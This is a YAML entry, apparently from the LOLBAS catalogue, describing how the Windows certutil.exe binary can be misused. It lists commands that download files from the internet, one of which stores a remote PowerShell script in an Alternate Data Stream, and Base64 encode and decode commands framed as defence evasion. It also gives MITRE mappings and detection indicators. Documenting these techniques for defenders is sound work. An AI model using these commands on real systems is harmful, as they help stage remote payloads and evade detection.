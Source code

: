 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handeling certificates
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    MitreLink: https://attack.mitre.org/wiki/Technique/T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    MitreLink: https://attack.mitre.org/wiki/Technique/T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample: 
  - Code:
Detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@moriarty2016'
---
```

